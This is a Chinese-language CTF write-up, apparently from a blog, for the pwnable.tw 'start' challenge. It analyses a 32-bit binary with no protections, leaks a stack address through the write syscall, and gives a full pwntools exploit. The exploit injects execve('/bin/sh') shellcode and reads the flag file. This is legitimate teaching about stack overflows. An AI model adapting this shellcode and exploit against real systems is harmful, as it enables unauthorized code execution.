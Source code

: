 ```yaml
---
title: pwnable.tw - start writeup
published: 2025-04-23 16:20:30
description: ''
image: ''
tags: ['pwnable.tw', 'pwn']
category: 'CTF'
draft: false 
lang: ''
---
```


## Beacon

先檢查檔案類型，是個 32 位元的 ELF 檔案。

```zsh
➜ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

保護機制全都沒有開。

```zsh
➜ checksec --file=start
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   8 Symbols         No    0               0               start
```

```zsh
gef➤  checksec
[+] checksec for '/home/yuto/pwnable_tw/start/start'
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
```

執行看看觀察程式的行為，會有一個輸入，接著就結束程式了。同時可以發現在輸入 20 個 A 時，程式會 segmentation fault，代表可能有 stack buffer overflow 的漏洞可以利用。

```zsh
➜ ./start
Let's start the CTF:aaaaaaaaaaaaaaaaaaaa
[1]    81889 segmentation fault (core dumped)  ./start
```

## Analysis

用 radare2 嘗試分析程式

```
r2 -AAA start
[0x08048060]> afl
0x08048060    1     61 sub.entry0_8048060
```

可以看到只有一個函式 `sub.entry0_8048060` 在記憶體位址 `0x08048060`。

### Program flow

反組譯的程式碼中，很明顯地可以看到程式一開始印出的字串 `Let's start the CTF:`，同時也可以看到最下方有透過 `int 0x80` 進行兩次系統呼叫。

![r2 disas](r2-disas.png)
> radare2 反組譯的程式碼

| syscall | eax | arg0(ebx)       | arg1(ecx)       | arg2(edx)    |
| ------- | --- | --------------- | --------------- | ------------ |
| read    | 3   | unsigned int fd | char *buf       | size_t count |
| write   | 4   | unsigned int fd | const char *buf | size_t count |
> 系統呼叫表

因此兩次的系統呼叫大致如下：

```c
write(1, "Let's start the CTF:", 20);
read(0, buf, 60);
```

### Memory

整個程式的 stack 使用狀況如下：

![stack analysis](stack-analysis.png)

## Vuln

目標是注入 shellcode 並覆蓋 return address 控制執行流程。但是目前對於記憶體位址的資訊不足，因此要想辦法先 leak 出 stack 的記憶體位址，然後再跳到 shellcode。

可以發現程式碼的部分在傳遞 `write` 的 `buf` 參數時，是直接把 `esp` 丟進去，所以剛好可以利用 `write` 來印出儲存在 stack 裡 `esp` 的記憶體位址，程式流程大致如下：

1. 輸入 `b"A" * 20 + write_addr`
2. stack 的內容被復原，程式執行 `ret`，此時 `esp` 指向的位址中是前一個 `esp` 的值
3. 跳回 write 的 `int 0x80` 那一行（`0x08048087`），印出前一個 `esp`

而接下來執行的 `read()` 也是把 `esp` 當作 `buf` 的指標，就可以在此時把 shellcode 送進 stack。但要注意的是，在程式執行 `ret` 前會先執行 `add esp, 0x14`，因此複寫 return address 的位址要在那之後。

![exploit](exploit.png)

> - `esp` 是第一次執行時的 stack pointer
> - `prev esp` 是第一次執行時的前一個 stack pointer
> - `write esp` 是覆蓋 retrun address 後，執行 `ret` 後的 stack pointer
> - `read esp` 是呼叫 `read()` 時的 stack pointer，同上

最後再用一點簡單的 shell 魔法，就可以順利拿到 flag 了。

```zsh
find / -name flag | xargs cat
```

## Exploit

```py
from pwn import *
import sys

BINARY = "./start"
REMOTE = "chall.pwnable.tw:10000"
DEBUG = len(sys.argv) > 1 and sys.argv[1] == "debug"

context.arch = "i386"
context.os = "linux"
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "info"

# setup gdb scripts
GDBSCRIPT = """
b _start
"""


def connect():
    if DEBUG:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    else:
        host, port = REMOTE.split(":")
        return remote(host, int(port))


write_addr = 0x08048087
shellcode = asm("""
    xor     eax, eax
    push    eax
    push    0x68732f2f
    push    0x6e69622f
    mov     ebx, esp
    xor     ecx, ecx
    xor     edx, edx
    mov     al , 0xb
    int     0x80
    """)


def exploit(io):
    payload = b"A" * 20 + p32(write_addr)
    io.sendafter(b":", payload)
    prev_esp = u32(io.recv(4))
    info("prev_esp: " + hex(prev_esp))
    io.recv()

    payload = b"A" * 20 + p32(prev_esp + 20) + shellcode
    io.send(payload)

    io.sendline(b"find / -name flag | xargs cat")

    flag = io.recvline().strip()
    success("flag: " + flag.decode())

    io.close()


if __name__ == "__main__":
    io = connect()
    try:
        exploit(io)
    finally:
        io.close()
```

最終執行的結果：

![win](win.png)